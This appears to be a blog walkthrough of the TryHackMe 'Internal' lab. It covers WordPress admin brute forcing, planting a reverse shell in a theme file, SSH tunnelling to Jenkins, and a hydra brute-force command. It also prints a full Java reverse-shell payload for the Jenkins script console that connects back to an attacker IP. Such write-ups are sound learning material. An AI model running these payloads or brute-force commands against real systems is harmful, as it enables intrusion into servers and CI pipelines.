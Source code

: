 ![image](https://github.com/Sameer484/gh_pages/assets/110039044/0e8bfb73-fa49-4a15-bf0a-0bb7fff745ca)Internal is the hard rated challenge on tryhackme.I was following offensive pentesting path and found this machine and since this was rated as hard, I thought of writing blog on this. I hope we will learn together a lot into the rabbit hole of penetration testing. Let's hack into the machine and give them a pentest report.

## Enumeration (Recon is everything)
They gave us an ip to start. This ip may change while going down this blog because it may take more time to solve and I only give short time at once and come back later along with my notes. For now let's do initial scan with our favourite tool **Nmap**. I did all port scanning with nmap to find any interesting port and while nmap is running, i usually run **rustcan**(a fast port scanning tool written in rust language). I only found 2 ports opened ie. 22 and 80.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/5dec244e-5003-446d-9809-b495689c49d5)


## Bumping around website

![image](https://github.com/Sameer484/gh_pages/assets/110039044/4faf8035-36b1-4b8d-975b-aee4664a47e3)


What?? Nothing more than a default apache web server page? Okay, fine. Let me find some directories then. Let's run **feroxbuster**(bruteforcing tool written in python) to see if we can find any directories.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/df8e23a4-4204-4404-878e-af8cb1cf6e83)


Ahhh, wordpress site. Why would the developer put much effort to build the useless site? They thought why not use wordpress instead. When i view the /wordpress site, i found it's broken. It just sucks, doesn't it? Did you liked this page?

![image](https://github.com/Sameer484/gh_pages/assets/110039044/8498f2a4-6898-4b64-ad1b-f0b4c09a9bdf)


Let's skip to to the internal and we got lost.
![image](https://github.com/Sameer484/gh_pages/assets/110039044/f72a715e-189d-49a3-8ffd-5939be71619f)



Here, it comes the /etc/hosts file. We need to add the domain name to resolve the domain name's ip address. We just need to inform our local dns server to find the ip address for the domain name **internal.thm**
You know what to do right? Just add these line to /etc/hosts file and your local dns is ready to serve the internal.thm
```
10.10.135.111  internal.thm
```
Let's get back to our broken wordpress site and seee what it looks like. Ahh, look, it found it's beauty now. 

![image](https://github.com/Sameer484/gh_pages/assets/110039044/8447fc83-d6ff-4485-8e63-a888b91cc783)


Now what?? I prefer to begin with inital recon on wordpress ie. running wpscan to find out any initial foothold. We may find some username enumeration and try to bruteforce the credentials. Just throw the website into the wpscan and let it do it's job. 

![image](https://github.com/Sameer484/gh_pages/assets/110039044/76909ab9-4bf0-4f71-9a14-fb9dc3ecbbcc)



No username and interesting plugins is found by wpscan. Wordpress seems so old and old means insecure?? I searched for vulnerable wordpress version on the public exploit databases and google but that lead me to nowhere.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/3ecf6135-04d4-4250-a537-992b75c4ea2d)



There was only one option left and that was hitting bruteforce attack on the admin account and yeah we found the password for admin account. We got our initial foothold. You can run the command as below in wpscan to get the password for admin. I won't disclose the actual password here.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/d395bb3a-4062-411f-80b0-390c644bb2a8)


After roaming around the admin panel inside the wordpress, i found a private page with some credentials but don't know what to do with it for now.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/31918508-aa91-4bd8-b609-bafc8c8a0a75)


Now, we are left to get reverse shell to the server. We know that twentyseventeen theme is being used and this theme contains 404.php page that we can abuse to gain our reverse shell. Edit the page with php reverse shell payload from penetestmonkey or your favourite one(mine is pentestmonkey). Don't forget to align ip and port as in your netcat listener

![image](https://github.com/Sameer484/gh_pages/assets/110039044/d97904af-dc74-4075-a55d-25a980a58ca3)


We need some method to execute this php page and get the connection back and we can do that by visiting the 404 page manually. The url is  `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` but don't forget to start the listener in your machine before executing or visiting the url. There we are on the machine. 

![image](https://github.com/Sameer484/gh_pages/assets/110039044/5149f581-f688-476c-bb6b-09a7c96796b4)

## Initial Privilege Escalation
You can install linpeas on the machine but you won't be finding anything useful information. This machine is totally manual enumeration. I spent almost 30min trying to findout anything useful, tried finding the files that are owned by the root, www-data but there is nothing. While listing all the processes running the machine (`netstat -tuna`), one script caught my attention but couldn't move forward. 
This jenkins.sh is something but we don't have permission to view this file.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/cbc9c78c-9d83-40f2-a360-b0daacd37572)


After some enumeration on file system, i move to /opt folder and found another interesting file and note.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/5ed0181a-f44a-4ce8-941a-fa8bba6ef5e2)


We got some credentials but have no idea where to throw this credentials. Why don't we try ssh using this credentials?? Let's give it a try and guess what, we logged on to the machine as Aubreanna user. We got upgraded to one level privilege up.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/f3ebbfc8-f733-4080-86b5-2ab8701d4e52)


Collect the first user flag. You can find it in the home directory as user.txt. On jenkins.txt note, we know that the jenkins service is running on with different ip ie.there is docker service running. That jenkins.sh maybe something related to this docker service.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/7b77c58d-7ab9-4997-855d-eb161f4263c5)


### What is Jenkins??
> Jenkins is open source automation service that greatly helps developer in automating day to day redundant workflow. Basically jenkins is CI/CD pipelining where we write scripts that does automation for: Whenever the code changes or some event occurs then the remote code is integrated from bitbucket or gitlab, build it with local one and deploy or deliver it to the remote server.

Since jenkins run on web server, we can enumerate the jenkins using curl command line like this

![image](https://github.com/Sameer484/gh_pages/assets/110039044/519df08d-087d-40fc-b9ae-fe64676c027b)


But......
this isn't the great way to do so. What can we do then? We can't directly view that ip and port in our local machine. So, there is an way called **ssh port forwarding**. Using this technique, we can access that service locally on our machine.



## SSH Port Forwarding and Jenkins Exploitation

We can tunnel our local port to connect to the remote ip and port. That's what ssh local port forwarding means. We can create a local port forwarding tunnel from port 8080 on our local machine to port 8080 on the remote machine with the IP address 172.17.0.2 through an SSH connection to the server at IP address 10.10.157.57 using the username "aubreanna" like this.
`ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.81.208`
> If this bounces your head, then ssh local port forwarding simply forwards every traffic that you send on your localhost port say 8080 to the remote server port that you specify on the above command ie.8080 and the ip is the IP address of the remote machine that you want to forward your localhost traffic to. That means when you send request to localhost:8080, ssh tunneling will forward that request to remote server and sends back the response to your localhost at port 8080


Now, we can view the page locally on our machine.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/626172b7-79f1-40fc-bb24-7b1c93414e09)


The jenkins page loads up locally. COOL!!

![image](https://github.com/Sameer484/gh_pages/assets/110039044/095161aa-e741-48df-aa74-4f4798e562f9)


I tried some default credentials for the jenkins server: `admin:password` but this didn't worked for me. Why not give a shot to bruteforce using hydra tool? I quickly ran the tool and it found me the password within few seconds. You can run the tool as below. Notice that i used the ip as **samsec** because i changed the dns for localhost to samsec so that i can intercept the traffic using brupsuite(burpsuite won't capture domain name being localhost). **PS.** This is unncessary.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt samsec -s 8081 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
![image](https://github.com/Sameer484/gh_pages/assets/110039044/9029a2f4-7c1b-4fbf-b60c-383b938cfe3d)


After logging in using this credentials, we can enter to the jenkins. One special function of jenkins is that it contains `/script` directory where we can run arbitrary java code. By leveraging this function, we can abuse code execution to get reverse shell to the docker machine that runs this jenkins. After digging around in google to find the rev shell payload, i found one in medium article.
```
String host="10.10.117.223";
int port=4444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```
Make sure to change the ip, port to yours that netcat is listening on. You need to insert this payload in the script console in jenkins and run the payload after setting up listener in local machine.
Finally we got the reverse shell connection like this.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/a69745b1-4103-4ed1-b8ca-462b35fbed63)


![image](https://github.com/Sameer484/gh_pages/assets/110039044/afc1bdeb-6ecf-41cd-840f-137babba70db)


Verify that we are inside docker using ls -al and you should see .dockerenv file. There is nothing in /home folder and after little while, i decided to look into opt folder and found one note with credentials somewhere.

![image](https://github.com/Sameer484/gh_pages/assets/110039044/ede4a7ba-33cd-4ef7-937f-f44324be33d1)


Yayyy, we found the credentials for root and now one ssh connection is left to grab the root flag. I hope you can do that easily. 

## End
This challenge was more of a bruteforcing than logical escaping and exploitation. I was not aware of bruteforcing wordpress and jenkins at first glance. This may feel some overwhelming because of some ssh tunneling issues but at the end learning something new is what we should seek for in cybersec.
